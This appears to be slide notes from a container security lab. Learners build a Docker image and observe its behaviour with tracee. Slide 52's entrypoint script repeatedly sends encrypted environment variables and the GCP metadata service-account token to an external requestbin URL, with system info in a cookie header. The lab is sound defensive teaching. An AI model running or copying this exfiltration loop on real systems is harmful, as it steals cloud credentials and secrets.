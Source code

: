 ### Slide 52 - Create an entrypoint script

Paste the below script into the vi after hitting `i` for insert 
```
#!/usr/bin/env bash

if [ "shell" = "${1}" ]; then
  /bin/bash
else
 while true
 do
	sleep 30
	curl -s  -X POST -A "${UA}" -H "X-User: ${USER}" -H "Cookie: `uname -a | gzip | base64 -w0`" -d \
`{ env && curl -s -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token; } | gzip | openssl enc -e -aes-256-cbc -md sha512 -pbkdf2 -salt -a -pass "pass:${PW}" | base64 -w0` \
$URL
	echo
 done
fi
```
> After pasting, hit `ESC`, then type `:wq`

### Slide 53 - Build and run your image

```
docker build -t cmddemo .
```

```
docker run --name demo -d cmddemo
```

```
docker logs demo --follow 2>&1
```


### Slide 54 - Build and run your image (cont.)

The trick to this one is pasting the contents of the cookie field in the request you recieved on requestbin, into the base64 command below. This will decode it and pipe through gunzip to decompress the contents.
```
base64 -d <<< [cookie field content] | gunzip
```

>Take a look back at tracee terminal per slide 52

### Slide 56 - Observing Docker

```
docker ps
```
Note name or id of running container and use it in command below
```
docker stop demo
```
